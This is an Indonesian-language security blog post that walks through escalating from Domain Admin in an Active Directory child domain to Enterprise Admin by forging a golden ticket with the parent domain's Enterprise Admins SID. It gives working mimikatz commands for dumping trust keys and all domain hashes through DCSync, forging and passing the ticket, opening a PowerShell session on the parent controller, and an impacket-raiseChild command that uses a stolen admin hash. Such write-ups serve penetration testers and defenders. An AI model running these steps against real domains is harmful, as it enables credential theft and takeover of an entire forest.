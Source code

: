 ```yaml
---
title: "[Child Domain Trusts] Privilege Escalation Domain Admin to Enterprise Admin (SID Hijacking)"
author: "novran"
date: 2024-11-20 00:00:00 +0700
categories: [Active Directory Privilege Escalation]
tags: [Active Directory Privilege Escalation]
mermaid: true
image:
  path: /images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-banner.png
  alt: Abusing Child Domain Trusts
---
```


SID Hijacking adalah teknik di mana penyerang memanfaatkan SID dari objek pengguna atau grup untuk mendapatkan hak istimewa yang lebih tinggi. Dengan ini penyerang memalsukan SID grup "Enterprise Admins" untuk meningkatkan hak istimewanya.

Konsep yang perlu dipahami:
- Dalam jaringan Active Directory, `Trust` adalah hubungan kepercayaan antar domain, seperti antara Parent Domain dan Child Domain.
- Dalam Active Directory, Group "Enterprise Admins" memiliki hak tertinggi (bahkan di atasnya Domain Admins).
- Security Identifier (SID) adalah identitas yang digunakan untuk mengelola hak akses dan izin pengguna atau grup.

**Persyaratan**

Penyerang **membutuhkan akses Domain Admin di Child Domain** untuk memulai eksploitasi. Kemudian penyerang memanipulasi akun pengguna atau grup di Child Domain, dengan cara menyisipkan SID grup "Enterprise Admins".

> Dari sini Parent Domain akan kita sebut sebagai `DC01` dan Child Domain akan kita sebut sebagai `DC02`.
> - **DC01** - `domain.local`
> - **DC02** - `child.domain.local`

----------

**Enumeration via Child Domain**

```powershell
get-adtrust -filter *
```

![Check ADTrust](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-adtrust.png)

## Manual Exploitation (Local)

> To execute all of this, we need execute through **RDP!**

### 1. Run mimikatz.exe from DC02

Ekstrak informasi hubungan trust antar domain dan kredensialnya.

```
privilege::debug
lsadump::trust
lsadump::dcsync /all /csv
```

![Mimikatz LSADUMP](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-mimikatz-gatherinfo.png)

Manipulasi tiket (Golden Ticket).

```
kerberos::golden /user:Administrator /domain:<CHILD.DOMAIN.LOCAL> /sid:<CHILD_DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /sids:<PARENT_DOMAIN_SID>-519
```

![Golden Ticket](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-mimikatz-golden-ticket.png)

> Tambahkan `-519` pada akhiran `/sids:` menjadi `<PARENT_DOMAIN_SID>-519`

Pass the Ticket.

```
kerberos::ptt ticket.kirbi
```

![Pass the Ticket](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-mimikatz-pass-the-ticket.png)

### 2. Enter PowerShell Session to DC01

Setelah berhasil mengeksekusi `Pass the Ticket`, Kita dapat memasuki sesi PowerShell DC01 melalui DC02 menggunakan Command di bawah ini.

```powershell
Enter-PSSession DC01
```

![Enter PowerShell Session](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-pssession.png)

## Auto Exploitation (Remote)

Dengan script `impacket-raiseChild` ini, Kita bisa melakukannya secara Remote melalui mesin kita sendiri. Namun, inputnya sedikit berbeda, yaitu kita menggunakan `NTLM HASH` atau Password milik Administrator di **Child Domain atau DC02**, lalu Impacket akan melakukan enumerasi secara otomatis sampai dengan mendapatkan sesi Shell di DC01.

```bash
impacket-raiseChild -target-exec <DOMAIN.LOCAL> -hashes :<DC02_ADMINISTRATOR_HASHES> '<CHILD.DOMAIN.LOCAL>/Administrator' -k
```

![Impacket Raisechild](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-impacket-raisechild.png)
